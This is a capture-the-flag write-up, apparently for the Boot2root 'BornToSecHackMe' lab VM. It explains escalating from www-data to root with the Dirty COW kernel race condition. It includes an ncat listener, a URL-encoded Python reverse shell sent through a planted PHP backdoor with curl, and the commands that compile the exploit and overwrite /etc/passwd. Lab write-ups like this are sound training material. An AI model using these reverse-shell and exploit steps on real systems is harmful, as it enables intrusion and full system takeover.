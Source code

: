 # Dirty Cow Exploit
After setting up the Reverse Shell on user www-data, we can see that the Kernel version of Linux is 3.2.0 which has a massive exploit known as Dirty COW. The exploit consists of taking advantage of a race condition that happens when you try to write on a cache of a file that's just has been deleted and can permit you to write on any files and in our case /etc/passwd. 

When logged in as user www-data we can go to /tmp to write our exploit and compile it, I chose the firefart version on [Dirty Cow Ninja](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs) which takes as the argument the new password of root, we modified the code as to have the user named root:

 1. First we launch ncat with the following flags to listen on any host on port 1234

    └─# ncat -nvklp 1234
	Ncat: Version 7.93 ( https://nmap.org/ncat )
	Ncat: Listening on :::1234
	Ncat: Listening on 0.0.0.0:1234

 2. Secondly, we send our reverse shell through our backdoor:
 
 `curl --insecure https://<BOOT2ROOT IP>/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<OUR IP>%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27
`

 3. Now we are connected to the VM of Boot2root on www-data and we can write on ou current directory /var/www/forum/templates_c so let's copy our dirty.c, compile it and then execute it
 
    Ncat: Connection from 192.168.56.102.
	Ncat: Connection from 192.168.56.102:51482.	
	www-data@BornToSecHackMe:/var/www/forum/templates_c$ cat > dirty.c << lol
	><DIRTY.C code>
	>lol
	www-data@BornToSecHackMe:/var/www/forum/templates_c$ gcc -pthread dirty.c -o dirty -lcrypt
	www-data@BornToSecHackMe:/var/www/forum/templates_c$ ./dirty q
	./dirty q
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: q
Complete line:
root:roI77uTJXVKgg:0:0:pwned:/root:/bin/bash
mmap: b7fda000

We can relaunch our reverse shell, and just

    www-data@BornToSecHackMe:/var/www/forum/templates_c$ su root
    Password:q
    root@BornToSecHackMe:/var/www/forum/templates_c$ id
    uid=0(root) gid=0(root) groups=0(root)
